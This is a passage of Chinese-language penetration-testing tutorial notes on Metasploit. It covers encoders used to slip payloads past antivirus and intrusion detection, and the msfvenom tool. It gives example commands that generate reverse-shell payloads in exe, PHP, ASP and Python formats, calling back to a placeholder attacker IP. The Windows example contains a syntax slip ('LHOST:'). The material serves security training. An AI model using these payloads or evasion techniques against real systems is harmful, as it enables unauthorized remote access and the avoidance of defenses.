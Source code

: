 编码器是一个我想简要提到的功能，尽管在我们的学习过程中可能不是非常重要。编码器是用于以一种更难以被安全系统（比如入侵检测系统（IDS）或者防病毒软件）检测和阻止恶意有效载荷的方式转换数据的工具或技术。在渗透测试或真实世界的攻击的漏洞利用阶段试图逃避检测时，通常会使用编码器。

编码器将原始有效载荷（通常是shellcode或其他形式的恶意代码）转换为一种仍然能够实现相同目标但不再容易被基于签名的安全系统识别的形式。

我们可以使用命令`show encoders` 列出可用的编码器。

与可用的有效载荷一样，这些编码器也会根据漏洞利用模块自动过滤，只显示兼容的编码器。

## Msfvenom

Msfvenom替换了Msfpayload和Msfencode，允许你生成有效载荷。

Msfvenom能让你访问Metasploit框架中可用的所有有效载荷，它还允许你为许多不同的目标系统创建多种不同格式的有效载荷。

这为什么会那么重要？虽然msfconsole在你与目标具有网络连接时表现非常完美，但有时你需要手动将有效载荷上传到服务器或通过电子邮件发送。为此，msfvenom诞生。

### 如何创建有效载荷

当使用Msfvenom时，一般的漏洞利用步骤是：

#### 1. 使用MSFvenom生成有效载荷

MSFvenom需要一个有效载荷、本地机器IP地址和有效载荷将连接的本地端口。一般情况下，有效载荷的创建方式如下：

<payload>: 指定要生成的有效载荷。这可以是Metasploit支持的任何有效载荷，例如`windows/meterpreter/reverse_tcp` 用于Windows Meterpreter 反向shell。根据有效载荷及其特定要求，你需要提供额外的选项。这些选项根据有效载荷而变化，但常见的选项包括：

- **-f <format>：** 指定有效载荷的输出格式（例如，exe、dll、python、bash）

- **-o <output_file>：**  指定生成有效载荷的文件名。

- **LHOST=<listener_IP>:** 设置监听器的IP地址。（你的攻击机器）

- **LPORT=<listener_port>:** 设置有效载荷将连接回你的监听器的端口号。

**示例有效载荷命令：**

基于目标系统的配置（操作系统、安装的Web服务器、解释器等），msfvenom可以用来创建几乎所有格式的有效载荷。下面是一些经常会用到的示例，具体取决于目标系统。

- **Windows** 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST:10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

- **PHP**

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```

- **ASP** 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```

- **Python** 

```bash
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```
